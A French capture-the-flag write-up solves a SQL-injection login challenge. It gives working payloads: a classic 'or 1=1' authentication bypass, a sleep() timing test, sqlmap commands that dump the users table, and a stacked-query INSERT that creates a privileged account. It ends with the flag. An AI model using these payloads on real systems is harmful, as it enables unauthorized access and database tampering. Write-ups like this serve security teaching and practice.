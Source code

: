 # Web 100 - Super Query Login v2

La suite d’une série d’injection SQL avec un champ de connexion. On se connecte avec une injection
classique:

>‘or 1=1 limit 1 #

On est connecté mais on nous indique que nous n’avons pas le rang nécessaire (rang = 0).
On essaie de se connecter sur d’autres comptes en faisant varier le paramètre “limit”
> ‘or 1=1 limit 1,2 #

Malheureusement aucun compte ne semble avoir le rang espéré. On va essayer de faire une requête à la
suite de la requête principale:

> SELECT something FROM table WHERE something = ‘$username’ AND something =’ $password’ ;
DEUXIEME_REQUETE


On injecte donc avec: ‘ and sleep(5) # On remarque que le chargement de la page est beaucoup plus
long que la normal du fait de la pause demandée via l’injection à MySQL.
La suite de notre exploitation va consister à ajouter un nouvel utilisateur dans la base de données avec le
rang adéquat. Pour faciliter l’exploitation on peut passer par sqlmap afin de récupérer la table contenant
les utilisateurs et les colonnes de celle-ci.

> python
sqlmap.py
-u
"http://ese.crashlab.org/bla/ctf/web/web7/"
"username=toto&password=toto" -p "username" --level 3 --threads 4
--data


La faille est exploitable en blind avec RLIKE, on récupère ce dont on a besoin:

>python
sqlmap.py
-u
"http://ese.crashlab.org/bla/ctf/web/web7/"
"username=toto&password=toto" -p "username" --level 3 --threads 4 --dump
--data


On a alors une table web3_users avec les colonnes: id, password, rank et username. Notre injection pour
ajouter un nouvel utilisateur se résume alors à:
> Login = ‘ ; INSERT INTO web3_users(id, username, password, rank) VALUES (987, ‘bob’,
‘bob’, 1) #

On se connecte avec le compte créé et on obtient le flag: **ESE{St4cKeD_Qu3rIeS}**